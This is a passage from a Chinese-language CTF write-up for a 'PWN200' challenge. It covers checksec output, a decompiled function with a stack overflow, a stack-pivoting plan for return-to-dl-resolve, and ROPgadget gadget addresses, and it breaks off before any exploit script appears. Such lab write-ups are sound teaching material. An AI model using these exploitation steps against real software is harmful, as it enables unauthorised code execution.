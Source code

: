 # PWN200

先检查一下文件

```c
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

 在 IDA中反汇编看看 程序是什么样的，这是我们发现程序存在漏洞

```cc
ssize_t vuln()
{
  char buf; // [esp+Ch] [ebp-6Ch]

  setbuf(stdin, &buf);
  return read(0, &buf, 0x100u);
}
```

这里存在着栈溢出漏洞，虽然程序存在 write 写函数 但是我要学会的是 return-to-dl-resolve 所以我们不利用write函数去泄露 

这道题首先为了让构造的 ROP 链的长度合适，这里我们可以用到栈迁移

- 首先我们要 将我们想迁移到的地址 覆盖到 程序的 ebp 上这样 执行下一个 汇编指令时 会将 这个值 赋值给 **ebp （pop ebp）**
- 然后我们要在下面调用一次 **leave ret (mov esp, ebp ; pop ebp ;)**这样我们就能将esp 也迁移过去 从而实现栈迁移 

用**ROPgadget**工具找到 我们需要的汇编指令的地址

```cc
syc@ubuntu:~/Downloads/retdll$ ROPgadget --binary bof --only 'pop|ret'
Gadgets information
============================================================
0x0804861b : pop ebp ; ret
0x08048618 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048379 : pop ebx ; ret
0x0804861a : pop edi ; pop ebp ; ret
0x08048619 : pop esi ; pop edi ; pop ebp ; ret
0x08048362 : ret
0x0804846e : ret 0xeac1

Unique gadgets found: 7
syc@ubuntu:~/Downloads/retdll$ ROPgadget --binary bof --only 'leave|ret'
Gadgets information
============================================================
0x08048458 : leave ; ret
0x08048362 : ret
0x0804846e : ret 0xeac1

Unique gadgets found: 3
syc@ubuntu:~/Downloads/retdll$ readelf -S bof | grep ".bss"
  [26] .bss              NOBITS          0804a040 001028 00000c 00  WA  0   0 32
```
